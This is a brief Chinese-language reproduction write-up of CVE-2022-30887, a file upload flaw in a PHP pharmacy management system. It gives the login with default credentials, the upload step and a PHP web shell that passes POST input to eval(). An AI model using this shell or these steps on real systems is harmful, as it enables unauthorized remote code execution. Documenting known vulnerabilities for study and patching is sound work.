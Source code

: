 # CVE-2022-30887漏洞复现
多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的,  该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。该软件有助于为药房业务创建一个综合数据库，并根据到期、产品等各种参数提供各种报告。  该CMS中php_action/editProductImage.php存在任意文件上传漏洞，进而导致任意代码执行。

找到作者的源代码，使用默认的账号密码登录（账号为作者邮箱，密码为作者名），登录进去以后，在添加药品里面直接上传shell，然后访问图片地址即可。
shell文件内容：
```php 
<?php
	echo "hello shell";
	eval($_POST['cmd']);
?>
```
